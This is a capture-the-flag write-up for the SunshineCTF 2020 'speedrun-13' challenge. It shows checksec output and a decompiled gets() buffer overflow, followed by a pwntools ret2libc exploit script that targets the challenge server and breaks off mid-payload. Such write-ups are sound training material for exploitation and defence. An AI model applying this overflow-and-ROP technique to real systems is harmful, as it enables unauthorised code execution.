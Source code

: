 ## speedrun-13

### Checksec  
```  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
```

Other than shellcode (NX), all options on the table.

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_3e [54];  
  
__x86.get_pc_thunk.ax();  
 gets(local_3e);  
 return;  
}  
```

In my haste I kinda missed the boat on this one.  There's a `win` function
called `systemFunc` that gives you a shell.

Every week I solve problem like this (sans the `win` function).  It is a basic
ROP pattern of leaking the location and version of libc, then scoring a 2nd
pass to then get a shell.  Which is exactly what I did here.  I should have
been more suspicious given how short all the other speedruns were, however
since I solve these all the time I was able to c&p and solve this in less than
a minute anyway.

All the details of how this works is here:
[newpax](https://github.com/datajerk/ctf-write-
ups/tree/master/darkctf2020/newpax).

All that is really different is the offset (`0x3e` from, you guessed it,
`local_3e`).

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_13')  
context.log_level = 'INFO'

if not args.REMOTE:  
   context.log_file = 'local.log'  
   libc = binary.libc  
   p = process(binary.path)  
else:  
   context.log_file = 'remote.log'  
   libc_index = 1  
   p = remote('chal.2020.sunshinectf.org', 30013)

p.sendlineafter('Keep on writing\n','foobar')

payload  = 0x3e * b'A'  
payload += p32(binary.plt.puts)  
```